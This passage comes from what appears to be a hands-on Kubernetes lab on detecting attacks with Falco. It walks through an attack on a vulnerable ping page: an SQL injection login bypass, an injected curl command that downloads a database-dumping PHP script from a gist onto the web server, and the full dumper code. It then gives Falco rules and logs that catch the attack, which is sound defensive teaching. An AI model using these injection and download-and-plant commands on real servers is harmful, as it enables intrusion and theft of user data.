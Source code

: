 Once the attacker knows the login details for the database, he could easily write a [small rogue program](https://gist.githubusercontent.com/quique/4630ca1bbd9e7c7d44337d7f132aac8b/raw/00d94164db24b9e53007bee419af0201019f63fe/dump.php), and place it in our server:

<!-- gist raw content, in case it is deleted from the original source!!

<?php
// Connect using the stolen credentials
$link = mysqli_connect("mysql", "root", "foobar", "employees");

// Get all the data from the users table
$re = mysqli_query($link, "SELECT * FROM users");

// Show the data
echo "<pre>";
while ($row = mysqli_fetch_assoc($re)) {
    var_dump($row);
}
echo "</pre>";
 -->
 
`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" --form-string "ipaddr=localhost; curl https://gist.githubusercontent.com/quique/4630ca1bbd9e7c7d44337d7f132aac8b/raw/00d94164db24b9e53007bee419af0201019f63fe/dump.php > /var/www/html/dump.php " -X POST http://ping/ping.php`{{execute}}

Finally, he could invoke his program to get a dump of the database contents, including the table with all our users and their passwords.

`kubectl exec client -n ping -- curl http://ping/dump.php`{{execute}}

Detection with Falco
--------------------

Falco helps you detecting this kind of attacks thanks to these custom rules:

```yaml
- rule: Apache writing to non allowed directory
  desc: Attempt to write to directories that should be immutable
  condition: open_write and container and k8s.ns.name=ping and not (ping_allowed_dirs and proc.name in (apache2))
  output: "Writing to forbidden directory (user=%user.name command=%proc.cmdline file=%fd.name)"
  priority: ERROR
  tags: [filesystem]

- rule: Forbidden network outbound connection
  desc: A non-whitelisted process is trying to reach the Internet
  condition: outbound and container and k8s.ns.name=ping and not proc.name in (ping, apache2)
  output: Forbidden outbound connection (user=%user.name command=%proc.cmdline connection=%fd.name)
  priority: ERROR
  tags: [network]
```

The `open_write` macro is true when a process tries to write to a directory holding system binaries.

The `outbound` macro is true when a network connection to the external world is opened.

Take a look at the logs generated by Falco:

`kubectl logs --selector app=falco -n falco | grep Error`{{execute}}

You should see something like:

```log
09:29:03.328677498: Error Forbidden outbound connection (user=www-data command=curl https://gist...
```
